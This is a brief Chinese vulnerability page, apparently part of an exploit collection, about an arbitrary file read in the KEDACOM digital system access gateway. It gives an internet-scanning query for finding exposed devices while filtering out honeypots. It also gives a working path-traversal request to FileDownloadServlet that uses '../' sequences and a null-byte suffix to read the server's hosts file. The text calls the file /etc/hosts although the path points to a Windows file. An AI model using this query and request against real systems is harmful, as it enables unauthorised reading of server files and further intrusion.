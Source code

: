 # KEDACOM数字系统接入网关 任意文件读取漏洞

## 漏洞描述

KEDACOM 数字系统接入网关 存在任意文件读取漏洞，攻击者通过构造请求可以读取服务器任意文件

## 漏洞影响

<a-checkbox checked>KEDACOM 数字系统接入网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>(app="KEDACOM-DVR接入网关") && (is_honeypot=false && is_fraud=false)</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ked-1.png)



使用POC读取 /etc/hosts



```plain
/gatewayweb/FileDownloadServlet?fileName=test.txt&filePath=../../../../../../../../../../Windows/System32/drivers/etc/hosts%00.jpg&type=2
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ked-2.png)

